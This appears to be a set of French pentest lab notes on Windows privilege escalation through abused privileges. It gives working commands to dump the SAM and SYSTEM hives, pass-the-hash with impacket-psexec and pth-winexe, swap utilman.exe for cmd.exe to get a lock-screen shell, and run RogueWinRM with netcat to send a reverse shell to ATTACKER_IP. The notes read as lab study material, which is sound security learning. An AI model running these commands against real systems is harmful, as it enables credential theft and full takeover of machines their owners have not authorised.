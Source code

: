 Vérifiés ses privilèges :

```c
whoami /priv
```

Vous pouvez trouver une liste complètedes privilèges exploitables sur : [Priv2Admin](https://github.com/gtworek/Priv2Admin)


# SeBackup / SeRestore
Permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place

Disposant de ce pouvoir, un attaquant peut élever de manière triviale les privilèges sur le système en utilisant de nombreuses techniques. Comme dumper SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.


```c
reg save hklm\system C:\Users\THMBackup\system.bak
reg save hklm\sam C:\Users\THMBackup\sam.bak
```

Suivre [[Post Exploitation/Data Exfiltration/Windows#SMB|Windows Data Exfiltration - SMB]] pour telecharger les fichier `.bak`

Nous pouvons enfin utiliser le hachage de l'administrateur pour effectuer une attaque Pass-the-Hash et accéder à la machine cible avec les privilèges SYSTEM :

```sh
impacket-psexec -hashes LM_HASH:NT_HASH administrator@10.10.71.216
```

```
pth-winexe -U 'administrator%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```


# SeTakeOwnership
Permet à un utilisateur de s'approprier n'importe quel objet du système, y compris les fichiers et les clés de registre

Nous allons abuser `utilman.exe`pour élever les privilèges. Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage.

Pour remplacer utilman, on va commencer par s'en approprier :

```c
takeown /f C:\Windows\System32\Utilman.exe
```

Donner à l'utilisateur toutes les autorisations sur `utilman.exe` :

```c
icacls C:\Windows\System32\Utilman.exe /grant {USERNAME}:F
```

Après cela, nous remplacerons utilman.exe par une copie de cmd.exe :

```c
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Pour déclencher utilman, :
- Verrouiller l'écran depuis le bouton démarrer
- cliquez sur le bouton "Ease of Access (Option d'ergonomie)"


# SeImpersonate / SeAssignPrimaryToken
Permettent à un processus de se faire passer pour d'autres utilisateurs et d'agir en leur nom. L'usurpation d'identité consiste à pouvoir générer un processus ou un thread dans le contexte de sécurité d'un autre utilisateur.

Si nous parvenons à prendre le contrôle d'un processus avec les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`, nous pouvons usurper l'identité de n'importe quel utilisateur se connectant et s'authentifiant à ce processus.

Pour élever ses privilèges à l'aide de tels comptes, un attaquant a besoin des éléments suivants : 

1. Générer un processus afin que les utilisateurs puissent s'y connecter et s'y authentifier pour que l'usurpation d'identité se produise. 

2. Trouvez un moyen de forcer les utilisateurs privilégiés à se connecter et à s'authentifier auprès du processus malveillant généré.

> Si, pour une raison quelconque, le service WinRM ne s'exécute pas sur le serveur victime, un attaquant peut démarrer un faux service WinRM sur le port 5985 et intercepter la tentative d'authentification effectuée par le service BITS au démarrage

Si l'attaquant dispose des privilèges SeImpersonate, il peut exécuter n'importe quelle commande au nom de l'utilisateur qui se connecte, qui est SYSTEM.

1. Démarrer un écouteur netcat pour recevoir un shell inversé
2. Exécuter l'exploit

```sh
c:\Temp\RogueWinRM.exe -p "C:\Temp\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

[Exploit RogueWinRM](https://github.com/antonioCoco/RogueWinRM)


Ou utiliser le module `incognito` de metasploit qui va nous permettre d'exploiter cette vulnérabilité. 

